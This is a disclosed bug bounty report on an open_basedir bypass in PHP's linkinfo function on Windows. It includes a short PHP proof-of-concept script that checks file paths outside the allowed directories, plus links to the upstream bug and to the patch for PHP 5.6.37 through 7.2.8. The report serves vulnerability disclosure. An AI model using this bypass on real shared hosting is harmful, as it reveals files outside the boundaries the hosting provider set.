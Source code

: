# linkinfo - openbasedir bypass on Windows PHP

## Report Details
- **Report ID**: 384719
- **URL**: https://hackerone.com/reports/384719
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-07-20T18:31:03.649Z
- **Disclosed**: 2018-10-15T15:29:51.313Z

## Reporter
- **Username**: fms
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Upstream bug - windows linkinfo lacks openbasedir check
===
https://bugs.php.net/bug.php?id=76459 

Summary
==
Description:
------------
linkinfo function on windows doesn't implement openbasedir check, it can be seen by reviewing the source code. This could be abused to find files on paths outside of the allowed directories.


Windows: https://github.com/php/php-src/blob/master/ext/standard/link_win32.c#L88
Unix: https://github.com/php/php-src/blob/master/ext/standard/link.c#L85

Test script:
---------------
<?php

$var1="c:\\jump";
print "checking $var1 ...".PHP_EOL;
print @linkinfo($var1).PHP_EOL;
$var1="c:\\jump\\folder\\file1.txt";
print "checking $var1 ...".PHP_EOL;
print @linkinfo($var1).PHP_EOL;
$var1="c:\\jump\\blabla";
print "checking $var1 ...".PHP_EOL;
print @linkinfo($var1).PHP_EOL;

Expected result:
----------------
Warning: linkinfo(): open_basedir restriction in effect

Patch
==
http://git.php.net/?p=php-src.git;a=commit;h=289cb0f77c28b80a779170711f5e4e92cdd4fbdb

Fixed for PHP 5.6.37, PHP 7.0.31, PHP 7.1.20, PHP 7.2.8
==
http://php.net/ChangeLog-5.php#5.6.37

## Impact

Bypass openbasedir restriction set by hosting provider on a shared environment
 http://php.net/manual/en/ini.core.php#ini.open-basedir

## Attachments
No attachments
